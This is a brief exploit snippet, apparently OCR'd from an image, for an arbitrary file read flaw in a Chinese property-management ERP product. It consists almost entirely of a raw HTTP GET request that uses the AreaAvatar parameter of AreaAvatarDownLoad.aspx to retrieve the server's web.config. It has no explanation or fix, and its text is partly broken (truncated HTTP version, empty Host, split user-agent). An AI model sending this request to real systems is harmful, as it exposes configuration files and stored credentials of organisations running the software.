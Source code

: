 # 天问物业ERP任意文件读取

GET /HM/M_Main/InformationManage/
AreaAvatarDownLoad.aspx?AreaAvatar=./web.config HTTP/
Host:
User-Agent:Mozilla/5.0(Windows NT 10.0; Win64; x64)
AppleWebkit/537.36(KHTML, like Gecko) Chrome/
70.0.3538.77 Safari/537.36